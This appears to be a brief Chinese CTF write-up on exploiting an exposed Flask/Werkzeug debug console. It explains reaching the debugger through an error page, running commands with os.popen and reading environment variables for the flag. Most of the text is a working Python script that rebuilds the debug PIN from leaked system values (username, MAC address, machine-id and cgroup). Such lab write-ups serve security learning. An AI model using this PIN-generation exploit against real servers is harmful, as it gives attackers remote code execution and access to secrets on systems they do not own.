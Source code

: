 浏览器返回返回的http  burp有但页面不显示

在浏览器中打开流量请求状态码400进去就行

点错误代码就有提示，输入pin

os.popen('命令').read()

/flag里面没有别的

所以试试环境变量
os.getenv('ENV_PORT')然后就出来了

> 
>
>  `import hashlib`
>  `from itertools import chain`
>  `probably_public_bits = [`
>     `'root'# /etc/passwd`
>     `'flask.app',# 默认值`
>     `'Flask',# 默认值`
>     `'/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到`
> `]`

> `private_bits = [`
>     `'2485377581187',#  /sys/class/net/eth0/address 16进制转10进制`
>     `#machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup`
>     `'653dc458-4634-42b1-9a7a-b22a082e1fce55d22089f5fa429839d25dcea4675fb930c111da3bb774a6ab7349428589aefd'#  /proc/self/cgroup`
> `]`
>
> `h = hashlib.sha1()`
> `for bit in chain(probably_public_bits, private_bits):`
>     `if not bit:`
>         `continue`
>     `if isinstance(bit, str):`
>         `bit = bit.encode('utf-8')`
>     `h.update(bit)`
> `h.update(b'cookiesalt')`
>
> `cookie_name = '__wzd' + h.hexdigest()[:20]`
>
> `num = None`
> `if num is None:`
>     `h.update(b'pinsalt')`
>     `num = ('%09d' % int(h.hexdigest(), 16))[:9]`
>
> `rv =None`
> `if rv is None:`
>     `for group_size in 5, 4, 3:`
>         `if len(num) % group_size == 0:`
>             `rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')`
>                           `for x in range(0, len(num), group_size))`
>             `break`
>     `else:`
>         `rv = num`
>
> `print(rv)`
